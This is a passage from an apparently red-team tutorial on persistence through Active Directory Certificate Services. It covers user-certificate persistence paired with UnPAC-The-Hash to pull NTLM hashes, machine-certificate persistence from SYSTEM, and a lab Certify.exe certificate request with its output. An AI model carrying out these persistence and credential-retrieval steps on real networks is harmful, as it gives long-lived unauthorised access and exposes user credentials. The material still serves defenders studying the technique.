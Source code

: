Now, with the certificate in hand, I keep it with me, and for 1 year, I will have this persistence through the user. By combining it with UnPAC-The-Hash, you will always be able to retrieve the current NTLM hash of that user as long as the certificate remains valid 😏.

In my context, I spoke about a vulnerable template, but ideally, as I mentioned above, you would issue this certificate from a standard ADCS template, like the **User** template. Next, we will look at how to implement persistence on machines.

# Persistence by machine certificate

Machine persistence with certificates follows the same concept as before, but instead of needing a high-privilege user, you need to be SYSTEM on the machine. Machine persistence also has its advantages, such as:
- The certificate lasts for 1 year and can be renewed when it is about to expire.
- Even if the computer changes its password, the certificate will still work.
- Even if the computer is reformatted, if it returns to the network with the same name, the certificate will still be valid (THIS IS UNREAL MICROSOFT LMFAAAO).
    * If there is a change in the machine's SID, then the certificate becomes invalid. If the machine is formatted normally, it will have the same SID; if it is formatted and there is a change in hardware, the SID will change.
    * However, with new updates to Certipy/fy, you can specify the SID you want to use in the certificate.


Let's now reproduce this in our lab, the idea is as follows:
- Request a certificate from the CA (Certification Authority) based on the "Machine" template, which in its EKU (Enhanced Key Usage) allows Client Authentication by default.
- Convert the .pem file to .pfx using OpenSSL (<span style="color: red;">OPSEC NOTES</span>: Never use weak passwords for certificates 😑).

```powershell
.\Certify.exe request /ca:CORP-DC.CORP.LOCAL\CORP-CA /template:"Machine" /machine

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Request a Certificates

[*] Current user context    : NT AUTHORITY\SYSTEM
[*] No subject name specified, using current machine as subject

[*] Template                : Machine
[*] Subject                 : CN=SRV-01.CORP.LOCAL

[*] Certificate Authority   : CORP-DC.CORP.LOCAL\CORP-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 22

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEA0XOxnEqKbwpWnAOHKGHs...

-----END CERTIFICATE-----


```